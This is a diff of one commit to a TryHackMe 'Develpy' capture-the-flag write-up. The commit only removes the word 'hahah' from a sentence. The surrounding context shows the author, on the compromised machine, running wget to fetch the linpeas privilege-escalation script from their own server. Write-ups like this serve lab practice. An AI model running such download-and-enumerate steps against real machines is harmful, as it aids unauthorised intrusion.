

Before and after one commit to sudo-awk/CTF, a Markdown page: THM/develpy_README.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/THM/develpy_README.md
+++ b/THM/develpy_README.md
@@ -123,7 +123,7 @@ drwxrwxr-x 2 king king   4096 Aug 25  2019 .nano
 -rw-rw-r-- 1 king king     33 Aug 27  2019 user.txt
 -rw-r--r-- 1 root root    183 Aug 25  2019 .wget-hsts
 ```
-I dont know what to do hahah so I used linpeas I hosted linpeas in my server to download in the victim machine
+I dont know what to do so I used linpeas I hosted linpeas in my server to download in the victim machine
 ```
 king@ubuntu:/dev/shm$ wget http://10.18.70.19/linpeas.sh
 wget http://10.18.70.19/linpeas.sh
````
